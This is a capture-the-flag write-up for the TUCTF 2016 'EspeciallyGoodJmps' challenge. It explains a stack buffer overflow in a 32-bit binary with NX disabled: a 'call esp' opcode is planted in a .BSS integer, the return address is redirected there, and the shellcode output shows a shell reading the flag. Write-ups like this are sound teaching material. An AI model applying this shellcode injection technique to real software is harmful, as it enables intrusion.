


# EspeciallyGoodJmps [75] -TUCTF 2016

First of all execute `file` command
```bash
$ file 23e4f31a5a8801a554e1066e26eb34745786f4c4 
23e4f31a5a8801a554e1066e26eb34745786f4c4: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x161ccbaf95a7d5b84a8298afab8fdeaeedd445c0, not stripped
```

and `checksec` 
```bash
$ ./checksec --file 23e4f31a5a8801a554e1066e26eb34745786f4c4 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   No	0		4	23e4f31a5a8801a554e1066e26eb34745786f4c4
```
So i expect that i have to do something on the stack.
The program is simple: reads a string with `gets` and an integer and check if it is odd. 



We can easily do buffer overflow and execute out shellcode. But the tricky part is to get the address of the buffer due ASLR. So i look for any useful 
gadget in the binary but without luck. 

But the integer `meow` is stored in the `.BSS`



 so i can store an instruction that turns the control flow to my shellcode! What about `call esp`? The opcode for `call esp` is `ff d4` so the integer to send is
 ```bash
 $ python
Python 2.7.3 (default, Mar 13 2014, 11:03:55) 
[GCC 4.7.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0xd4ff
54527
```

So we overwrite the return address with `0x804a048` in order to call our istruction.

The full exploit is available [here](exploit.py)! 

Let's PWN them!

```bash
$ python exploit.py 130.211.202.98 7575
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAH�����������1�Ph//shh/bin�����°
    1�@̀, 54527 is an odd number!
ls
easy
flag.txt
cat flag.txt
TUCTF{th0se_were_s0me_ESPecially_good_JMPs}
```
